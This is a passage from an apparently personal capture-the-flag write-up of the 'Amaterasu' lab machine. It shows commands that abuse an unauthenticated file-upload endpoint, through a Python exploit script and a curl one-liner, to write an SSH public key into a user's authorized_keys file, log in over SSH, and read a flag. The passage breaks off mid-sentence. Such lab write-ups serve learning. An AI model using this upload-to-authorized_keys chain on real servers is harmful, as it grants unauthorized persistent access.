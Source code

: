 Let's change the extension to this file upon destination:

```
python exploit.py
Enter the destination path: /home/alfredo/.ssh/id_rsa.pub.txt
Enter the origin file path: /home/kali/Workspace/id_ed255519
```

This one was successfuly and the file was indeed there. Let's try logging in:

```
ssh -i id_ed25519 alfredo@$targ3t -p 25022
```

It prompts for a password, the access is still denied. I guess it was worth a shot. 

Somehow I still think this is somehow the right way to gain foothold on this machine, it's just missing something. I'm tempted to give various scanners a shot at this:

```
dirsearch -u $targ3t:33414 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Nothing particularly different. I give up.

_<sup>Assited by [write-up](https://medium.com/@cyberarri/amaterasu-pg-play-writeup-fe85417de271):</sup>_ Okay, so apparently I was onto something, but didn't quite get the bullseye. A painful lesson, that: 

I need to upload my `id_rsa.pub` key to `/home/alfredo/.ssh/authorized_keys` as `id_rsa.txt` not a in the directory one level up as I did previously:

```
python3 exploit.py
Enter the destination path: /home/alfredo/.ssh/authorized_keys/id_rsa.txt
Enter the origin file path: /home/kali/Workspace/pg_play_amaterasu/id_rsa.pub.txt
```

This returns an error. Not sure why, but I'll follow up on this later, I'll try the curl one-liner that is in the write-up for now:

```
curl -i -L -X POST -H "Content-Type: multipart/form-data" -F file="@//home/kali/Workspace/pg_play_amaterasu/id_rsa.pub.txt" -F filename="/home/alfredo/.ssh/authorized_keys" http://$targ3t:33414/file-upload
```

And it worked!

```
ssh -i id_rsa.txt alfredo@targ3t -p 25022
```

We're in, get the `local.txt` flag:

```
cat local.txt
```

I looked into my Python code and applied a possible fix that makes it work just like the `curl` one-liner above:
